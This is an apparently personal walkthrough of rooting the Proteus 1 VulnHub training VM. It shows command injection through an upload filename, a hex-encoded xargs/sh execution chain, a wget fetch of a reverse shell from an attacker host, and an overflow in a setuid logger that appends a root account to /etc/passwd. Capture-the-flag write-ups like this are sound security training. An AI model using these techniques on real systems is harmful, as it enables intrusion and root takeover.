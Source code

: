 # Proteus 1 Vulnhub Walkthrough

## Intro

Below you will find a walkthrough of the Proteus 1 VM. This was a fun and challenging machine. This page is full of fun spoilers, so if you're 
still attemping to root the machine, try harder :). Without further ado, let's dive in. 

## Download and Find It

Download the Proteus VM from (VulnHub)[https://www.vulnhub.com/entry/proteus-1,193/], load it up, and pick your favorite tool. For quick identification,
 I use nmap.
 
`nmap 192.168.2.0/24 -sP
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for Proteus (192.168.2.180)
Host is up (0.23s latency).
`

## Start Enumeration

I use a series of scripts to gather most of the information for me. Reconscan by Mike Czumak does an nmap script and starts work on additional modules
depending on what ports are determined to be open. There are three main ports open: 22, 80, and 5355

<INSERT CODE/IMAGE HERE>

Nikto and Dirb scans are kicked off for port 80. Let's continue exploring the website.

## Proteus

Fire up Burp and head to the web page. First notes are that there is a file upload, which is always fun to play with, and a login. Some quick auth bypass tries and sqlmap bear no fruit, so I focus on the main function and upload some files. If you upload something that doesn't fit the MIME type, Proteus gets mad at you and rejects. When you get a successful upload, Proteus brings you to the /samples page. 

<IMAGE HERE>

Proteus changes our file name to a base64 encoded value, runs strings, and runs objdump on our file. That's nice of them. We can also see uder objdump our file name (stored in /home/malwareadm/samples/). 

Looking at the POST in Burp, we have name="file"; and filename="file.bin" that we can mess with. I tried messing around wtih base64 encoded filenames first, but it's always better to keep it simple. Test for command injection in the filename parameter. filename="file.bin;id" works when you reload your webpage. 

## Messing With Command Injection

This part gave me quite a bit of trouble. The site takes the parameter of filename (currently set to file.bin;id), converts it to a random string (and keeps the extension if possible), and then runs base64 on it. It is useful that we know the name of our file as we can use it to access our own payloads on the server if  need be. 

I needed to generate a 'bad characters' list as some commands would not pass through. The website makes this pretty simple and fails obviously when testing. 

Good chars <IMAGE>
Bad chars <IMAGE>

Most of the commands that would give us further access require either '/' for files or a '.' for an ip address. I could open a port with nc, but I couldn't actually connect or interact with it afterwards. Looking back at the good character list, we have access to pipe. Essentially, if we can string together a set of commands, encoded or otherwise, we can create complex commands for execution.

After much trial and error I'm left with the following: `echo <hex encoded command> | xxd -r -p | xargs -i{} sh -c '{}'`

Taking hex encoded values, I can pass it to xxd (which also handles the encoding), and finally pass it to xargs which can handle the execution by bassing to sh. It was easy passing encoded values; however, they wouldn't execute (or if they did it was blind). I also ran into an issue that the server changes the filename parameter to all lower case. Initially I messed with xargs -I, but the server didn't like it. The xargs -i[replace] functionality is apparently deprecated (check man) in favor of -I, so I'm glad I had a version (4.7.0) that still had it. 
 
## Arbitrary Command Injection

It's easy to create hex encoded commands. I also created a quick script to help double check my works and possibly handle other use cases (though be wary of my shaky script abilites). Let's check again to see everything working. Here is the payload with 'cat /etc/passwd'

<IMAGE>

Now we can try to put a reverse shell in. The current account doesn't have write access to the web directory, so I needed to put it somewhere else. wget supports this. 
`wget -O /tmp/simpleshell.py http://<IP ADDR>/simpleshell.py`
Encode it, send it, and double check the file was recieved. You can always look at your own apache access.log to see if the GET was successful, or you can 'ls' the /tmp directory. If you check the /tmp directory with permissions, you can see they were nice enough to even grant our shell execute permissions. 

<IMAGE>

So now all I have to do is throw up a listner and execute the shell.

## >_Terminal

Once inside you can explore around to your heart's content. There are some config files with credentials and a test admin login that can be used for the web page. There is even a RSA private key (password protected). Keep exploring and you'll eventually find a quaint file: admin_login_logger. Check it's permissions and notice anything special? The sticky bit is set and the owner is root. I nc it over to my machine for further testing. 

admin_login_logger takes a parameter and writes it to a log file. 
<IMG>
Nothing too special, but user input is a fickle thing. I generated a junk pattern and pass it into the logger to see interestinng effects. 
<IMG>

An overflow occurs and I actually overwrite the file location and file name. Cool. So I have the ability to write to any file as root with a certain space for a payload. A few things to note about the overflow: it starts user input with a new line, the user input is appended to the end of the file, the user has limited space for the payload, and the user has limited space in the file name for the path and file. Calculating the pattern offset is 456 based on the name of the file created when I hit the first overflow. 
 
With these notes in mind, I can craft a payload. I fire up python interpreter for some quick work. 
`def pad(len):
    pad="A"*len
    return pad
`
`def gen():
    payload=userInput + pad(patternCustomLen-len(userInput)) + fileToOverwrite
    print payload
`
I initially thought I could overwrite the /etc/passwd file and remove the root account password, but this is when I found that the overflow just appends user input to the end. It also doesn't handle new lines very well either. Another easy thing to do is add an account to the machine. I crafted a user without a password and the machine still wouldn't let me su. Then, hashed a password (I used openssl passwd), created a user, su ... and fail because the overflow overwrote the :shell: section of /etc/passwd and the machine didn't know what to give me. 
 
Finally, here is the user input section of the final payload: `<username>:<password>:0:0::/tmp/`
 
Now to su <username>, type the password, and pop to a root shell.
 
<IMG>
 
Now you can find the flag and display it. 
 
<IMG>
 
##  Final comments

Overall I had a lot of, albeit frustrating, fun. I needed the practice and learned some things along the way. The system gives a lot of leeway to the user because it executes commands in so many places and even grants them execute rights. Crafting the original injection is probably the hardest part. Now onto the next one.

